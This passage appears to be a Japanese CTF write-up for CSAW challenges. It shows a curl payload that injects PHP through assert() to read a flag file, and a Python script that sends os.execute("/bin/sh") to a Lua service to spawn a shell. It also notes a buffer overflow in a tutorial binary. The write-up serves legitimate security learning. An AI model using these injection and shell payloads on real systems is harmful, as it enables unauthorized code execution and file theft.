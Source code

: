 ```php
		
		<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.12.4/jquery.min.js" />
		<script src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js" />
	</body>
</html>

```

assert()をバイパスできれば良さそうで, これでOK

```shell
$ curl -D- http://web.chal.csaw.io:8000/\?page\=flag%27%29\|\|print%28file_get_contents%28%27templates/flag.php%27%29%29\;//
```

`flag{3vald_@ss3rt_1s_best_a$$ert}`

## Aul - pwn100

helpというオプションでバイナリが流れてくるので, 見てみるとこれはluaのバイナリ

でも, このバイナリ自体に脆弱性がある訳では無さそう.(あったら教えて欲しい)

これは, なんか

`os.execute("/bin/sh")`

だけでshell取れて→オワリ(これって正攻法なの...?みたいな気持ち)

```python
from No___Op import *

target = 'pwn.chal.csaw.io:8001'

c = Pwning( target )

c.sendall('os.execute("/bin/sh")')

c.shell()
```

## Tutorial - pwn200

```
x86-64

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   Yes	0		6	./tutorial
```

オプションに1, 2, 3があって
2でbofがある
